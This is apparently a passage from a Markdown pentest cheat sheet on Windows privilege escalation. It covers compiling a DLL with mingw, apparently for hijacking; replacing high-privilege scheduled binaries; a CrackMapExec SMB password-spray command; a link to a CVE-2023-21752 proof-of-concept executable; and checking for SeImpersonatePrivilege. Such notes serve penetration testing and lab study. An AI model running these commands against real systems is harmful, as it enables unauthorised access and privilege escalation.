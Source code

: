 ```cpp
    return TRUE;
}
```

#### DDL Compilation 
```sh
x86_64-w64-mingw32-gcc TextShaping.cpp --shared -o TextShaping.dll
```

### Start service

```php
Start-Service GammaService
```

```php
net stop mysql
```

### Scheduling Tasks
```rb
schtasks /query /fo LIST /v
```

_not just find the binary running by high level and replace if you have permission_

### CrackmapExec 
-password spray_

```php
crackmapexec smb 192.168.150.222 -u user.txt -p WelcomeToWinter0121
```

### CVE
https://github.com/nu11secur1ty/CVE-mitre/blob/main/2023/CVE-2023-21752/PoC-3.0/Release/PoC-CVE-2023-21752.exe


#### trick
-> check if current user can Impersonate a client after authentication Enabled  option 

```ps1
whoami /priv
```

```sh
ASTUTEC:\Windows\system32> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeManageVolumePrivilege       Perform volume maintenance tasks          Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```
